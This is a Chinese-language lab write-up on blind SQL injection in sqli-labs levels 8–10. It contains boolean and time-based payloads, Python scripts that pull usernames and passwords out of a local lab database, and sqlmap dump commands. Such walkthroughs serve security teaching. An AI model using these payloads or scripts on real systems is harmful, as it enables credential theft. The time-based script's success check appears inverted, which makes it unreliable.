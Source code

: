 ```yaml
---
 title: Sqlilabs通关笔记(8-10)盲注
 date: 2020-01-04 17:20:00
 tags: SQL注入
 categories: SQL注入
---
```


## 第八关 基于GET单引号布尔型盲注

![2020-1-5-9-10-58](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-9-10-58)

<!--more-->
### 存在注入点判断
1. 通过反斜杠可知，错误和正常页面有区别
2. 可以构造payload来进行判断布尔值，从而确定要查询的结果
    > http://127.0.0.1/sqlilabs2/Less-8/index.php?id=1' and 's'=left(database(),1)--+ 页面正常 说明第一个字母为s
    > http://127.0.0.1/sqlilabs2/Less-8/index.php?id=1' and 'se'=left(database(),2)--+ 页面正常 第二个字母e
    ...................
    以此类推可以将数据结果得出

3. 利用二分法构造payload
    - 常用构造函数
        * ascii() 函数，返回字符ascii码值 
            - 参数 : str单字符

        * length() 函数，返回字符串的长度 
            - 参数 : str 字符串

        * left() 函数，返回从左至右截取固定长度的字符串
            - 参数str,length
            - str : 字符串
            - length：截取长度

        * substr()/substring() 函数 ， 返回从pos位置开始到length长度的子字符串
            - 参数，str，pos，length
            - str: 字符串
            - pos：开始位置
            - length： 截取长度

        * if函数，判断条件并作出不同行动
            - 参数，条件，成立，不成立
    
    - 实例构造
        > SELECT * from users WHERE id = 1 and (length(database())=8)
        > SELECT * from users WHERE id = 1 and ascii(substr(database(),8,1))
        > SELECT * from users WHERE id = 1 and 's'=left(database(),1)
        > SELECT * from users WHERE id = 1 and if((length(database())=8),1,0)
    
    - 脚本编写
    ```python
    import string
    import requests
    from time import sleep

    arlist = string.printable

    Baseurl = "http://127.0.0.1/sqlilabs2/Less-8/index.php?id=1\' and "


    def checkurl(url):
        res = requests.get(url)
        if res.ok:
            if 'You are in' in res.text:
                return True
        return False

    def main():
        flag  = ''
        for g in range(100):
            for i in arlist:
                payload = "substr((select group_concat(username,password) from users),%s,1) = \'%s\'--+" % (
                    g, i)
                finalurl = Baseurl + payload
                if checkurl(finalurl):
                    flag = flag + str(i)
                    print(flag)
                sleep(0.2)

    if  __name__ == "__main__":
        main()
    ```

### SQLMAP注入

直接上**payload**

> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-8/index.php?id=1" --technique B -D security -T users -C username,password --dump --threads 10 --batch

## 第九关 基于GET单引号基于时间盲注

![2020-1-5-9-11-26](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-9-11-26)

### 存在注入点判断
1. 加上反斜杠发现页面并无变化
2. 猜测不管语法对错页面都没有变化
3. 尝试使用sleep看是否执行
4. 布尔盲注和时间盲注的最直观区别就是一个可以通过页面区别来判断对错，一个则无法判断对错，只能通过执行的时间来区别对错
5. 查看源码验证布尔盲注和时间盲注
布尔源码如下：
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="5" color="#FFFF00">';
	//echo 'You are in...........';
	//print_r(mysql_error());
	//echo "You have an error in your SQL syntax";
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>
```
时间盲注源码如下
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="5" color="#FFFF00">';
	echo 'You are in...........';
	//print_r(mysql_error());
	//echo "You have an error in your SQL syntax";
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}
```
6. 布尔注释掉了输出错误信息，而时间盲注不管对错页面都是You are in..

7. 尝试构造payload
    >  http://127.0.0.1/sqlilabs2/Less-9/index.php?id=1' and if((length(database())=8),sleep(5),1)--+

8. 脚本编写
    ```python
    import string
    import requests
    from time import sleep

    arlist = string.printable

    Baseurl = "http://127.0.0.1/sqlilabs2/Less-9/index.php?id=1\' and "


    def checkurl(url):
        try:
            res = requests.get(url,timeout = 3)
            return True
        except Exception as e:
            return False

    def main():
        flag  = ''
        for g in range(100):
            for i in arlist:
                payload = "if((substr((select group_concat(username,password) from users),%s,1) = \'%s\'),sleep(5),1)--+" % (
                    g, i)
                finalurl = Baseurl + payload
                if checkurl(finalurl):
                    flag = flag + str(i)
                    print(flag)
                sleep(0.2)

    if  __name__ == "__main__":
        main()
    ```

## 第十关 基于GET双引号基于时间盲注

### 存在注入点判断

* 和第九关类似，只不过需要用双引号闭合

payload:

> http://127.0.0.1/sqlilabs2/Less-10/index.php?id=1" and if((length(database())=8),sleep(5),1)--+

### SQLMAP注入

**直接上payload（9-10通用）**

> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-9/index.php?id=1" --technique T -D security -T users -C username,password --dump --threads 10 --batch